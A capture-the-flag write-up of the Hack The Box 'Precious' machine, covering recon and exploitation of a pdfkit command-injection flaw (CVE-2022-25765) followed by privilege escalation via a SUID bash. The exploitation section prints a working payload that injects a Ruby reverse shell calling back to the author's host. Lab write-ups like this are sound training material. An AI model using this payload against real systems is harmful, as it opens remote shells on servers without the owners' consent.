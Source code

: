 
## HTB Precious Writeup
---

### Box Overview

The Precious Box on Hack the Box is a Linux box listed under the 'Easy' difficulty.

![](/docs/images/precious/20221224161832.png)

It currently has about 5600 user solves and 5100 roots, which is pretty common with easy boxes as there's not a huge difficulty curve on the privilege escalation portion. Let's get into it then.

### Reconnaissance
---
#### Nmap Scan

Starting with an nmap scan is usually a good way to figure out if this is another ssh/http box or if we get something interesting. 

![](/docs/images/precious/20221224164006.png)

Another box with the SSH ports and HTTP ports, at least the web app practice is nice. We can also see that the hostname is `precious.htb` so I'll just go ahead and add that to my `/etc/hosts` file. ( `-p-` scan didn't retrieve meaningful to I left it out.)

#### Walking the Application

Visiting `http://precious.htb` yields what looks like a single page app. 

![](/docs/images/precious/20221224164559.png)


Looks like there's a simple front-end page that takes a URL and converts the page result to a PDF file. Since these HTB containers don't have access to the internet, I'm going to spin up a Python web server to test it. 

![](/docs/images/precious/20221224164929.png)

I just hosted this on port 80 for simplicity.

![](/docs/images/precious/20221224165058.png)

This then downloads a PDF file automatically upon clicking 'Submit'.

![](/docs/images/precious/20221224165223.png)

The pdf file statically looks pretty normal, and it looks like it's generated by `pdfkit v0.8.6` which may be of interest. The PDF file generated looks pretty standard so I don't expect anything crazy from it. 

![](/docs/images/precious/20221224165511.png)

Nothing out of the ordinary, that is just an older PDF that I had downloaded from the same website. 

#### Gobuster Scan

While it doesn't seem like a directory search will amount to much I'm still going to do it.

![](/docs/images/precious/20221224165748.png)

Honestly, that's a first. At least Apache spits out a .htacess or something. But nginx doesn't really do those. And just from manually searching the only other file I could find was the `stylesheets/style.css` file in the page source.


### Preparing for Exploitation
---
I just wanted to add this section since searching for `pdfkit exploit` yields this cool one.

Source: `https://github.com/CyberArchitect1/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell.git`

![](/docs/images/precious/20221224170118.png)

This seems like it might work, I just assumed this since a lot of HTB boxes are made for trying new exploits and provide a nice way to share this with a large audience. Now it goes say `pdfkit <0.8.6`, but I still want to try it.

(Also I realized after reading the txt file that this was specifically designed for this box, but I didn't know that previously so we'll pretend its not.)

Setting up the exploit is pretty straightforward as it just requires two lightweight servers to be up and open.

![](/docs/images/precious/20221224173129.png)

So now that I've got the Python web server and the Netcat listener, I'll move onto the exploitation.

### Exploitation
---
For this line, I'm going to use one that was in the GitHub link above.

```
http://10.10.16.14:9090/?name=%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.14",8888))'`
```

![](/docs/images/precious/20221224173552.png)

Neat. 

![](/docs/images/precious/20221224174121.png)

Still no user flag though. So some lateral movement is required to move from ruby to henry first. 


### Post-Exploitation
---
First I'm going to start with the lateral movement to access the Henry user. 

![](/docs/images/precious/20221224174637.png)

Just from some looking around. I can see that Laurel is running on this box, maybe I'll come back to that later. Time for some easy enumeration.

![](/docs/images/precious/20221224174903.png)

Time to drop LinPeas in the /tmp instead of doing the work myself. 

Okay so apparently the `/bin/bash` file has a SUID bit set to it. 

![](/docs/images/precious/20221224175443.png)

I have no idea of this is intentional or not, but okay I'm gonna roll with it.

![](/docs/images/precious/20221224175659.png)

Okay then, neat little box that uses a new pdfkit exploit. Overall pretty neat, some easy HTB points if you're looking for those. 







